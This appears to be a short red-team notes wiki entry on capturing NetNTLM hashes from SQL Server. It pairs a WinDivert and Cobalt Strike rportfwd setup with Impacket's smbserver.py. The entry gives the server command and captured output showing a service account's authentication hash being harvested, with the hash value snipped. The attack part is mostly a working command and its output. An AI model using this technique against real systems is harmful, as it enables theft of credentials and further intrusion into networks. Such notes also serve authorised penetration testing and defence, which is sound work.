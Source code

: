 
## [[SQL NetNTLM Capture]]
You may also use the WinDivert + rportfwd combo (shown on the [[NTLM Relaying#Windows - Cobalt Strike]]) with Impacket's `smbserver.py` to capture the NetNTLM hashes.
```sh
python3 /usr/local/bin/smbserver.py -smb2support pwn .

Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,46894)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (EDU\svc_mssql,SRV1)
[*] User SRV1\svc_mssql authenticated successfully
[*] svc_mssql::EDU:[...snip...]
[*] Connecting Share(1:pwn)
```


```meta
requirements: admin
results: 
category: 
opsec: 
oss: #py
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py
description: 
```